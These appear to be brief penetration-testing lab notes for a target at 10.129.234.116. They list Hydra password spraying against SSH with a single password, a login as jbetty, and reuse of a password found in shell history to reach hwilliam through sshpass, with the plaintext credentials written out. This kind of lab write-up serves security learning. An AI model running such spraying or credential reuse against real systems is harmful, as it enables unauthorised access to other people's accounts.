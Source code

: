 - Username enumeration, generate usernames using:
	- `/opt/PNPT-Tools/scripts/osint_gen.py --input users`

# Hydra
---
- `hydra -L osint_output/usernames.txt -p 'Texas123!@#' ssh://10.129.234.116`
- ![[Pasted image 20250706063218.png]]

# SSH
---
- `ssh jbetty@10.129.234.116`
- `Texas123!@#`

# Enum
---
=> From history we find the password of hwilliam:
- `sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01`